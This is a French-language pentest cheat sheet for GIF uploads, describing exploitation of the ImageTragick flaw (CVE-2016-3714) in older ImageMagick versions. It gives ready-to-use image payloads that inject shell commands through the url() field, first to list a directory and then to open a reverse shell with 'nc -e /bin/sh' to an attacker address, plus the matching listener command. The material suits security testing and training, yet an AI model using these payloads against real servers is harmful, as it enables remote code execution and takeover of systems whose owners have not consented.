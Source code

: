 # GIF

**Facteur de risque** : RCE

**Extensions** : `.gif`

**Type MIME** : `image/gif`

**Description** : Le **Graphics Interchange Format** ou **GIF**, est un format d'image.

## Sommaire

- ImageTragick

## RCE : ImageTragick CVE-2016–3714

<img src="logo_imagetragick.png" title="" alt="" height="200">

**ImageMagick** est un logiciel utilisé pour créer, modifier (redimensionner), convertir ou afficher des fichiers d'images dans un très grand nombre de formats.

ImageMagick possède plusieurs failles, donc une qui permet d'exécuter du code arbitraire à distance : https://imagetragick.com

### Pré-requis

- ImageMagick <= 6.9.3-9 est utilisé par le serveur web

### Exploitation

1. Copier le code suivant, qui permet de lister le répertoire (**ls.gif**):
   
   ```shell
   push graphic-context
   viewbox 0 0 640 480
   fill 'url(https://example.com/image.jpg";|ls "-la)'
   pop graphic-context
   ```
   
    La fonction `url()` est censé contenir l'URL d'une image (`https://example.com/image.jpg`). Ici on injecte le code `";|ls "-la` pour lister le répertoire.

2. Téléverser ce fichier sur l'application.

Comme l'exploitation se passe au moment du téléversement, l'utilisateur peut ne pas voir pas le résultat des commandes. Mais un **reverse shell** est possible !

1. Copier le code suivant :
   
   ```shell
   push graphic-context
   viewbox 0 0 640 480
   fill 'url(https://example.com/image.jpg";|nc -e /bin/sh IP_ADDRESS "PORT)'
   pop graphic-context
   ```
   
   La fonction `url()` est censé contenir l'URL d'une image (`https://example.com/image.jpg`). Ici, on injecte le code `";|nc -e /bin/sh IP_ADDRESS_HERE "PORT_HERE` pour avoir un reverse shell.

2. Remplacer `IP_ADRESS` et `PORT` dans le code (faire attention aux guillemets présents), puis enregistrer sous forme d'image (**nc.gif**). Par exemple :
   
   ```shell
   fill 'url(https://example.com/image.jpg";|nc -e /bin/sh 127.0.0.1 "1234)'
   ```

3. Écouter votre port :
   
   ```shell
   nc -lnvp 1234
   ```

4. Téléverser ce fichier sur l'application. 
   Au moment du téléversement, ImageMagick va traiter l'image, et exécuter en le code.

## References

- ImageTragick : 
  - https://imagetragick.com

## Todo

- [Remote Code Execution in the Avatars - Dodd Security](https://doddsecurity.com/94/remote-code-execution-in-the-avatars/)

- Beating getimagesize() : [Unrestricted File Upload | OWASP](https://owasp.org/www-community/vulnerabilities/Unrestricted_File_Upload)

- Upload .gif file to be resized - image library flaw exploited
